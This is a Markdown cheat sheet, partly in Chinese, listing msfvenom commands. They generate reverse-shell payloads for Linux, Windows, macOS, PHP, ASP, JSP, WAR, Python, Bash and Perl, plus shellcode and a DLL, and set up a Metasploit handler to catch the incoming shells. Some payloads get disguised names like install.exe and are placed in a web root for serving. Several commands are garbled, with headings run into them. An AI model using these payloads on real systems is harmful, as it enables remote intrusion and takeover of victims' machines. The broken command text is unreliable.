 # msf生成各种payload
## msfvencom -l
#### Linux
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=14704 -f elf >/var/www/html/shell.elf`
#### Windows
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=16041 -f exe >/var/www/html/pt16041.exe`
  
  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=6666 -f exe >/var/www/html/install.exe`
#### Mac
  `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.machoWeb Payloads`
#### PHP
  `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.phpcat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php &&pbpaste >> shell.php`

#### ASP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

#### JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

#### WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to ConnectOn> -f war > shell.warScripting Payloads`
#### Python
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
#### Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
#### Perl
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
## SellCode
#### Linux Based SellCode
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Windows Based Shellcode
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Mac Based Shellcode
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
#### Handlers
`Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.`
#### 生成dll文件
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=10975 -f dll -o /var/www/html/x64.dll`

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession falseexploit -j -z
```



